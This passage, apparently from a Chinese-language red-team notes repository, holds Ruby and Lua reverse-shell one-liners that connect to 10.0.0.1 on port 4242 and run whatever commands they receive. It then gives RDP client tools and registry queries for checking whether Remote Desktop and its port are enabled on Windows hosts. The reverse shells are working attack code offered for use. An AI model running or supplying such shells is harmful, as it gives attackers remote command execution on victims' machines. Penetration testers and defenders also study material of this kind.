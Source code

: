 **ruby**
```ruby
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

**lua**
```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

---

# RDP

**第三方连接工具**
- [rdesktop/rdesktop](https://github.com/rdesktop/rdesktop)
    - kali 自带,使用方法 : `rdesktop [ip]`
- [Remmina](https://remmina.org/)
- [FreeRDP/FreeRDP](https://github.com/FreeRDP/FreeRDP)

## 命令行开启RDP

**相关文章**
- [开启 RDP](https://b404.xyz/2017/12/27/open-RDP/)
- [查询和开启3389端口方式总结](https://mp.weixin.qq.com/s/hgGcoEghsW0IIh7r-YCKCg)

**查看 3389 端口是否开启**
```bash
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /*如果是0x0则开启
```

![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/7.png)

**查看远程连接的端口**
```bash
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber
```

![](../../../../assets/img/Security/RedTeam/OS安全/Windows安全/8.png)
